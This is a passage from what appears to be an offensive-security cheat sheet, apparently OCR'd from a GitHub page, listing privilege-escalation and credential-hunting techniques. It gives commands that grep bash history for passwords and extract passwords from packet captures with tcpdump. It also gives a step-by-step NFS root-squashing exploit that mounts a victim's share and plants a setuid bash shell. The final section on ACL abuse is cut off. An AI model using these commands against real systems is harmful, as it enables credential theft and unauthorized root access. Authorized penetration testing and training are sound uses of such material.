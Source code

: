 -   history

> cat /home/\<user\>/.bash_history
>
> cat \~/.bash_history \| grep -i passw

<a name="package-capture"></a>
# Package Capture

Domain: No

Local Admin: Yes

OS: Windows/Linux

Type: Sniff

Methods:

locate:

-   tcpdump -nt -r capture.pcap -A 2\>/dev/null \| grep -P \'pwd=\'

<a name="nfs-root-squashing"></a>
# NFS Root Squashing

Domain: Yes

Local Admin: Yes

OS: Linux

Type: Remote Procedure Calls (RPC)

Methods:

-   showmount -e \<victim_ip\>

> mkdir /tmp/mount
>
> mount -o rw,vers=2 \<victim_ip\>:/tmp /tmp/mount
>
> cd /tmp/mount
>
> cp /bin/bash .
>
> chmod +s bash

<a name="abusing-access-control-list"></a>
# Abusing Access Control List

Domain: Yes

Local Admin: Yes

OS: Windows
